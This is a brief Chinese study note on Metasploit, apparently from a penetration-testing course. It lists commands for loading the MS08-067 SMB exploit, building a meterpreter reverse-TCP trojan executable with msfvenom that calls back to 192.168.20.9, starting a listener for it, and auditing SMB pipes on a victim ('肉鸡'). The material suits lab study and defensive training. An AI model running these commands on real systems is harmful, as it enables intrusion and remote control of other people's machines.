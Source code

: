 # 第四章 Metasploit

`search ms08-067`
`info exploit/windows/smb/ms08_067_netapi`
`use windows/smb/ms08_067_netapi`
`show options`

## Msfvenom
- `msfvenom -l payloads` 查看可用payloads
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=12345 -f exe > haha.exe`如此制作了一个木马
- `use multi/handler`
    `set LHOST 192.168.20.9`
    `set LPORT 12345`
    `exploit`
    这样就可以监听了
    
## SMBPIPE
SMBPIPE是使用SMB服务的通道，可能会有各种通道，我们选择的是Browser通道，看肉鸡开了那个通道可以通过
`user scanner/smb/pipe_auditor`来知道


